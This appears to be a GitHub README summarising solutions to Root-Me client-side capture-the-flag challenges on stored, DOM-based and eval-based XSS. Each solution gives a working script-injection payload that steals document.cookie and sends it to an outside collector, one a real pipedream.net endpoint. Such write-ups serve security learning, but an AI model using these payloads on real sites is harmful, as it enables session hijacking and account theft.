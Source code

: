 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>fetch("URL?c="+document.cookie)</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>fetch("URL?c="+document.cookie)</script>` and post a message

### XSS DOM Based - Introduction

Submit a random number, we will see url has a param `number`. 

Ctrl + U to view source code. `number` variable get value from URL param.

Exploit this.

Submit number `'; fetch("https://eo944ovuf06595y.m.pipedream.net?c="+document.cookie)//`. 

This will break `''` of `number` variable, add `fetch` into script.

Submit URL in `Contact` page with param `RootmeURL?number='; fetch("https://eo944ovuf06595y.m.pipedream.net?c="+document.cookie)//`

### XSS DOM Based - Eval
This web use regex  /^\d+[\+|\-|\*|\/]\d+/ to check input. We can bypass by using the following input:

``1*24+";window.location.href=`URL?c=`+document.cookie;//"``
